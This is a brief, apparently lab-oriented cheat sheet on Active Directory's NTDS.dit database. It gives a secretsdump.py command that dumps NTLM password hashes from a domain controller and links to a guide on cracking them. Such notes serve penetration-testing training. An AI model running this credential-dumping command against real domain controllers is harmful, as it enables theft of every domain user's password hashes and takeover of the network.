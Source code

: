 ## **NTDS.dit Overview**

### **What is it ?**

- A database used to store AD data. This data includes:
	- User information
	- Group information
	- Security descriptors
	- And oh yeah, password hashes


## **General Usage**

We can use the tool `secretsdump.py` to dump out the NTDS.dit secrets

```powershell
# secretsdump.py <domain/user>:'password'@DC-IP-ADDRESS -just-dc-ntlm
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.0.149 -just-dc-ntlm
```

You can learn how to sort and crack the credentials from [here](https://sec-fortress.github.io/posts/articles/posts/Sorting%20Dumped%20Credentials%20From%20NTDS.dit%20With%20LibreOffice%20Calc.html)
